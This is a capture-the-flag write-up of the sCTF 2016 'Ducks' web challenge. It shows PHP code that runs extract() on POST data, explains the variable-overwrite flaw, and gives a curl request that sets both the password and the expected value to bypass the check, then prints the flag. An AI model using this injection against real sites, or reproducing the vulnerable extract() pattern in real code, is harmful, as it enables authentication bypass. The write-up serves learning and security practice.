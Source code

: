 #Ducks

##[The ducks](http://ducks.sctf.michaelz.xyz/) and I have a unfinished score to settle.

**Hint:** *If you've remember HSF, you'll know that The Ducks is unsolvable.*

Viewing the source code of this challenge, we appear to have some awkward use of extract...

`<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
                        <?php
                        extract($_POST);
                        if ($pass == $thepassword_123) { ?>
                            <div class="alert alert-success">
                                <code><?php echo $theflag; ?></code>
                            </div>
                        <?php } ?>
                    <?php } ?>`


The exploit:
>PHP has a function named extract() to take all provided GET and POST requests and assign them to internal variables. Developers will, at times, use this function instead of manually assigning $_POST[var1] to $var1. This function will overwrite any previously defined variables, including server variables. Extract() has options which prevent overwriting previously-defined variables, however this safety is not enabled by default, and developers might not enable the safety, just as many do not perform input validation. This vulnerability is similar in design to the register globals vulnerabilities present in PHP.

[Source](https://davidnoren.com/2013/07/03/php-extract-vulnerability/)

So, now it's pretty trivial. The goal is to set $pass equal to the same value as $thepassword_123. I opted to use curl for this.

`curl 'http://ducks.sctf.michaelz.xyz/' --data 'pass=t&thepassword_123=t'`

grepping the results for the flag provides a positive result:
`<code>sctf{maybe_i_shouldn't_have_extracted_everything_huh}</code>`

![flag](https://github.com/HackThisCode/CTF-Writeups/blob/master/2016/SCTF/Ducks/flag.png "Flag")
